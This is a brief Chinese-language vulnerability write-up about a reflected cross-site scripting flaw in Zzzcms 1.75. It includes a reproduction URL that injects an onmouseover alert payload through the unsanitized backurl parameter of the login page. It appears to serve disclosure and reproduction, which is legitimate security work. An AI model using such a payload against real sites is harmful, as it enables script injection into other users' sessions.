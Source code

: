 ```yaml
---
title: Zzzcms 1.75 xss漏洞
id: zhfly3319
---
```


# Zzzcms 1.75 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

```
http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该onmouseover事件在移动到登录注册时会触发

![image](../img/2e52ed57cc575615ea79376015fa2e80.png)

对传入的backurl并没有做任何防护

![image](../img/688ced792b5205c4a41ba046f8d40967.png)